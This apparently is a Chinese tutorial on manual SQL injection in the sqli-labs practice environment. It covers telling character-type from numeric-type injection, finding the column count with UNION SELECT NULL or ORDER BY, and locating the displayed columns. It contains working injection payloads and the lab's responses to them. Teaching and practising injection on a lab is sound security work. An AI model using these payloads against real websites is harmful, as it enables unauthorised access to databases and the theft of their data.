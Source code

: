 #### 1.判断类型

注入

`?id=1 and 1=1 跟?id=1 and 1=2`

都没有报错，说明是字符型，反之数字型

我们还需要去确定后端表单的列数，才能够使用UNION

#### 2.确定表单列数方法

##### (1)使用NULL值

用 NULL 值代替具体的数据，逐步增加列数

在sqllabs的第一关我们可以这样子写(默认是字符型)

`id=1' UNION SELECT NULL --+`

返回The used SELECT statements have a different number of columns

我们再增加一列,两列，三列

```
id=1' UNION SELECT NULL, NULL --+
id=1' UNION SELECT NULL, NULL, NULL --+
```

根据返回结果

```
Your Login name:Dumb
Your Password:Dumb
```

可以确定出列数

##### (2)ORDER BY 或GROUP BY

```
id=1' ORDER BY X --+
id=1' GROUP BY X --+
```

X是未知正整数，从1递增一个个根据返回结果试

#### 3.查询回显位

输入

`id=1' UNION SELECT 1,2,3 --+`

在它后端系统实际呈现的结果集

第一行是它内部表单id=1的一个数据行

第二行就是我们输入的1，2，3排成3列

但是实际网页返回的结果只会取结果集的第一行，导致页面可能不发生改变，我们输入的内容并不会呈现出来

如果不把我们注入进去的结果给返回出来，我们就毫无进展，于是要让结果集第一行的默认数据给去掉，我们可以去查询一个根本不存在的id，它就不会显示占用第一行
